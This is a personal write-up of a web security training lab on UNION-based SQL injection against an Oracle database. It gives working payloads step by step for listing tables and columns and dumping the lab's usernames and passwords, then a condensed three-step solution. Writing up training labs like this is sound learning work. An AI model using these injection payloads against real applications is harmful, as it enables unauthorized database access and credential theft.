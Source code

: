 # Lab: SQL injection attack, listing the database contents on Oracle
## Description

1) Tried the classic attempts `' UNION SELECT NULL,...--` but wasted a bit of time. Its Oracle, so `FROM dual` is required.

2) Find all tables `'+UNION+SELECT+TABLE_NAME,NULL+FROM+all_tables--`

3) To remove the noise I copied all table names to a file (tables.lst) and filtered by names that didn't contain `$` using `grep -vi '\$' tables.lst` which returned too much. I tried `grep -vi '\$' tabels.lst |grep -i user` which returned a smaller list of interesting tabels:
```
APP_USERS_AND_ROLES
SDO_PREFERRED_OPS_USER
SYS_FBA_USERS
USERS_ITIVJR
USER_ASTATUS_MAP
WWV_FLOW_EFFECTIVE_USERID_MAP
WWV_FLOW_FND_GROUP_USERS
WWV_FLOW_FND_USER
WWV_FLOW_FND_USER_GROUPS
WWV_FLOW_PICK_END_USERS
WWV_MIG_ACC_USERS
```

4) I started to review the columns in tables using `' UNION SELECT COLUMN_NAME,NULL FROM ALL_TAB_COLUMNS WHERE TABLE_NAME = 'APP_USERS_AND_ROLES'--` until I eventually found `USERS_ITIVJR`

5) Get column names in table `'+UNION+SELECT+COLUMN_NAME,NULL+FROM+ALL_TAB_COLUMNS+WHERE+TABLE_NAME+%3d+'USERS_ITIVJR'--`
```
USERNAME_FIEWOR
PASSWORD_MCHWNF
```

6) Get data from columns: `' UNION SELECT USERNAME_FIEWOR,PASSWORD_MCHWNF FROM USERS_ITIVJR--`
```
administrator
fzz6dif830taflco34cz
carlos
9uquotyga76zjwzet28c
wiener
t67889reaexj1ww9n9bp
```


## Solution

1) Find table name with credentials: `'+UNION+SELECT+TABLE_NAME,NULL+FROM+all_tables+WHERE+TABLE_NAME+LIKE+'USERS_%'--`
2) Find column names: `'+UNION+SELECT+COLUMN_NAME,NULL+FROM+ALL_TAB_COLUMNS+WHERE+TABLE_NAME+%3d+'USERS_XXXXXXXX'--`
3) Find admin credentials `'+UNION+SELECT+USERNAME_YYYYYYYY,PASSWORD_MCHWNF+FROM+USERS_XXXXXXXX--`
